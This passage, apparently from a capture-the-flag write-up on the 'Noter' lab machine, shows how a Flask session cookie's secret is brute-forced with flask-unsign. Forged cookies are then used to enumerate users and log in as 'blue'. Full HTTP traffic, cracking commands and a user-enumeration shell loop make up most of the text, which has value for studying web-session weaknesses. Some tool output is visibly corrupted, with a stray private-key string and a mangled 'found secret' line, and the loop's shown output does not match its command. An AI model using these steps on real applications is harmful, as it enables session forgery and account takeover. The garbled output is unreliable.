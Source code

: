 ## Forging a Flask Session Cookie

Registering a user account and logging in yields a Flask `session` cookie.

```http
POST /register HTTP/1.1
Host: 10.129.104.50:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://10.129.104.50:5000
Connection: close
Referer: http://10.129.104.50:5000/register
Upgrade-Insecure-Requests: 1

name=tgihf&email=tgihf@noter.htb&username=tgihf&password=blah&confirm=blah
```

```http
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 218
Location: http://10.129.104.50:5000/login
Vary: Cookie
Set-Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGdpaGYifQ.Yok7Tg._SNLZb6IHO8kAA25yw6R32qhW0w; HttpOnly; Path=/
Server: Werkzeug/2.0.2 Python/3.8.10
Date: Sat, 21 May 2022 19:15:46 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
```

Leverage [flask-unsign](https://pypi.org/project/flask-unsign/) to brute force the cookie's secret: `secret123`.

```bash
$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGdpaGYifQ.Yok7Tg._SNLZb6IHO8kAA25yw6R32qhW0w'
[*] Session decodes to: {'logged_in': True, 'username': 'tgihf'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2048): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 16768 attemptsecretrethfC$
'secret123'
```

Iterate through `xato-net-10-million-usernames.txt`, creating a cookie for each username and attempting to access `/dashboard` with it in order to enumerate users. This reveals the user `blue`.

```bash
$ for user in $(cat /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt); do c=$(flask-unsign --sign --cookie "{'logged_in': True, 'username': '$user'}" --secret 'secret123'); curl -s -I -X GET -H "Cookie: session=$c" http://10.129.104.73:5000/dashboard | grep "200 OK"; echo $user; done
HTTP/1.0 200 OK
blue
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YolGRw.dScV5_yPkiyGR-2coMUUAMq8SKo
```

Leverage the cookie to login as `blue`. `blue` has two notes: "Noter Premium Membership" and "Before the Weekend." TODO: investigate.

`blue` also has access to a few more features on the dashboard: "Import Notes," and "Export Notes." TODO: investigate.

![](images/Pasted%20image%2020220521160843.png)
